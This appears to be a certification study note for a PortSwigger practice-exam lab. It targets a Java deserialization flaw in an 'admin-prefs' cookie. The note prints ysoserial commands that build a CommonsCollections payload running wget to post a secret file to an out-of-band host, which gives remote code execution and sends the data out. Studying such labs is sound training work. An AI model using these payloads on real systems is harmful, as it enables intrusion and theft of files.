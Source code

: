 ### Burp Deserialization Scanner `PRACTICE EXAM`

> Intercept the admin panel page in the Burp Practice Exam, and _**identify**_ the serial value of the cookie named `admin-prefs`. This challenge is from the [PortSwigger Practice Exam APP](https://portswigger.net/web-security/certification/takepracticeexam/index.html).

[![Admin prefs serial cookie](https://github.com/botesjuan/Burp-Suite-Certified-Practitioner-Exam-Study/raw/main/images/admin-prefs-serial-cookie.png)](https://github.com/botesjuan/Burp-Suite-Certified-Practitioner-Exam-Study/blob/main/images/admin-prefs-serial-cookie.png)

> Use below payload in the Deserialization scanner exploiting Java jar ysoserial command, to obtain remote code execution (RCE) when payload de-serialized on target.

```java
CommonsCollections3 'wget http://OASTIFY.COM --post-file=/home/carlos/secret'

java -jar /opt/ysoserial/ysoserial.jar CommonsCollections4 'wget http://OASTIFY.COM --post-file=/home/carlos/secret' | base64 -w 0
```

> Image below is from the Practice exam, I have some issues with my setup as the old version of java is needed when running `ysoserial` in bash terminal, and the Burp Suite Pro app need `sudo` to save the config of the extension.

![](Pasted%20image%2020250223003028.png)
